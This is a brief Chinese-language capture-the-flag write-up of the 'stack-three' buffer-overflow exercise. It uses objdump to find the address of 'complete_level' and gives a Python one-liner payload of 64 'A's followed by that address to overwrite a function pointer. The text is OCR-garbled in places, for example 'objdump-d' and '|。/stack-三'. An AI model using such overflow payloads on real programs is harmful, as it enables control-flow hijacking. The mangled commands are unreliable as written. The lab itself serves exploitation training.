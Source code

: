**![](img/e40f4c727294c44c559c7d8ef149f664.png)**

**源代码**

**正如我们所做的，这里的目的是调用函数“ **complete_level** ”。
我们可以简单的通过 objdump 找到它的地址。**

> **objdump-d ./stack-three | grep complete _ level**

**![](img/652ec4a83e5e4628c9e3dc3cb6495f88.png)**

**地址是:40069d**

**我们必须把这个地址放到指针值中，然后它会调用这个函数。
一个简单的 python 一行程序就足以通过溢出缓冲区来非常有效地解决这一挑战。结果如下所示。**

> **很简单，通过输入
> python-c ' print " A " * 64+" \ x9d \ x06 \ x40 " ' |。/stack-三**
